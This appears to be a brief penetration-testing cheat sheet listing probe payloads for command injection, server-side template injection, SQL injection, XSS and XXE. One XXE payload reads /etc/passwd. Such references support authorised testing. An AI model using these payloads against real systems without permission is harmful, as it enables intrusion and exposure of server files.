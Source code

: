 # 3_injection_attacks

## Command injection

For injection commands into text fields / URLs use the following characters

```shell
;
|
``
```

## SSTI

- Check for SSTI (server side template injection) using

```
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
```

## SQL injection

- Check for SQL injection points using

```
' or 1=1--
```
```
' or 1=1 -- -
```

## XSS

- Check for XSS (cross site scripting) vulnerabilities using

```
<h1>Hi</h1>
```
```
<script>alert('Hi');</script>
```

See [https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) for more information on server side template injection.

## XXE
Two payloads you can try are listed below.

```xml
<!DOCTYPE replace [<!ENTITY name "feast"> ]>
 <userInfo>
  <firstName>falcon</firstName>
  <lastName>&name;</lastName>
 </userInfo>
```
```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```
